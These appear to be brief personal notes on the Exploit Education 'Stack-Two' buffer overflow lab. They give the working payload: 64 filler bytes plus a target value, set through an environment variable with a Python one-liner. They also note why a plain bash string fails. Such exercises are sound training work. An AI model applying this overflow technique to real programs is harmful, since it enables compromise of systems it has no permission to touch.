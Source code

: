 # Stack-Two

* Set the enviroment variable in the bash shell prior to running the program

export ExploitEducation="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x0a\x09\x0a\x0d"
echo $ExploitEducation

Explain why the above doesn't work but why the below does
export ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"')
echo $ExploitEducation

0x0d0a090a

ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"')